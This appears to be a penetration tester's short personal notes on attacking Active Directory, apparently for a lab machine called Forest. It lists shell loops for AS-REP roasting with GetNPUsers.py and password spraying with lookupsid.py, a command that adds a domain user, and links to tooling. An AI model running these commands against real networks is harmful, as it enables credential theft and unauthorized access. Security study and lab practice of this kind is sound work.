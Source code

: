 #### Where to find Domain
?????
#### GetNPUsers
Have list of users, spray for Kerberos ticket
```bash - kali
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip $TARGET $DOMAIN$/${user} | grep -v Impacket; done
```
#### lookupsid
Have password, dictionary user spray
```bash - Kali
for user in $(cat users.txt); do lookupsid.py $DOMAIN/$user:'Secret0rg!'@172.31.1.4;done
```
#### quick win
If this works, follow [[1._Forest (E)#PrivEsc]]
```bash - kali
net user foo pass123 /add /domain
```
#### Username creator
[GitHub - urbanadventurer/username-anarchy: Username tools for penetration testing](https://github.com/urbanadventurer/username-anarchy)
#### Mindmap
https://www.xmind.net/m/5dypm8/#